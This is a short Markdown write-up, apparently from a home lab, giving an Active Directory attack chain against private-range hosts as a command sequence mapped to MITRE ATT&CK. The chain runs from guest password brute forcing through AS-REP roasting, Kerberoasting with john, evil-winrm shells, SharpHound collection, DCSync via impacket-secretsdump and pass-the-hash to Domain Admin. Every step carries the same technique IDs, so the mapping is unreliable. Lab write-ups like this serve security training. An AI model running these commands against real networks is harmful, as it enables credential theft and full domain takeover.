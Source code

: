 ```yaml
---
title: Attack Scenarios (MITRE)
---
```


# Attack Scenarios (mapped to MITRE ATT&CK)
Passwords and hashes have been concealed to retain confidentiality.

## <u>Brute Forcing Guest Account</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`nxc ldap 192.168.25.137 -u 'Guest' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding`
![1](img/1.png){ loading=lazy }


## <u>Enumerating SMB Shares</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`nxc smb 192.168.25.141 -u 'Guest' -p '_________' --shares`
![2](img/3.png){ loading=lazy }


## <u>ASReproast Domain Account</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`nxc ldap 192.168.25.137 -u 'Bob' -p '' --asreproast asreproast.txt`
![3](img/4.png){ loading=lazy }
`john --wordlist=/usr/share/wordlists/rockyou.txt asreproast.txt`
![4](img/5.png){ loading=lazy }


## <u>WinRM Shell with Domain Account</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`nxc winrm 192.168.25.137 -u 'Bob' -p '_________’`
![5](img/6.png){ loading=lazy }
`evil-winrm -i 192.168.25.137 -u 'bob' -p '_________’`
![6](img/7.png){ loading=lazy }

## <u>Upload and Execution of SharpHound</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`upload SharpHound.exe`
![7](img/7.png){ loading=lazy }
`./SharpHound.exe`
![8](img/8.png){ loading=lazy }

## <u>Exfiltration of Data Collected by SharpHound</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`download 20250910173643_BloodHound.zip`
![10](img/10.png){ loading=lazy }

## <u>Bloodhound</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`download 20250910173643_BloodHound.zip`
![11](img/11.png){ loading=lazy }

## <u>Kerberoast of Service Account</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`nxc ldap 192.168.25.137 -u 'Bob' -p '_________' --kerberoasting kerbroast.txt`
![12](img/12.png){ loading=lazy }
`john --wordlist=/usr/share/wordlists/rockyou.txt kerbroast.txt`
![13](img/13.png){ loading=lazy }

## <u>DCSync</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`impacket-secretsdump -just-dc LAB/svc-test:'_________'@WIN-LLBIAPV2E9D.lab.local`
![14](img/14.png){ loading=lazy }

## <u>Pass-the-hash to Login as Domain Admin</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`evil-winrm -i 192.168.25.137 -u 'Administrator' -H '__________________’`
![15](img/15.png){ loading=lazy }
